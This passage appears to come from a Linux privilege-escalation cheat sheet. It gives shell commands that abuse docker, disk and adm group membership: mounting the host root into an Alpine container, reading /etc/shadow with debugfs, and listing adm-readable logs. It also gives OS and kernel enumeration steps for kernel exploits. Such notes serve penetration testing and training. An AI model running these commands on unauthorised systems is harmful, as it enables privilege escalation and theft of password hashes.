 ```sh
docker pull alpine
docker run -v /:/mnt -it alpine /bin/sh
```

#### Disk Group

!!! info The disk group can manage disks.

Find where the root (`/`) mounted

```sh
df -h | grep "/$"
```

```sh
$ debugfs /dev/sda5
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cat /etc/shadow
```

#### Adm Group

!!! info Group adm have permissions to read log files located inside /var/log/

```sh
find / -group adm 2>/dev/null | grep -v 'proc' | xargs ls -l 2>/dev/null
```

### Kernel exploit

```sh
uname -a
```

```sh
cat /etc/issue
```

```sh
cat /etc/*-release
```
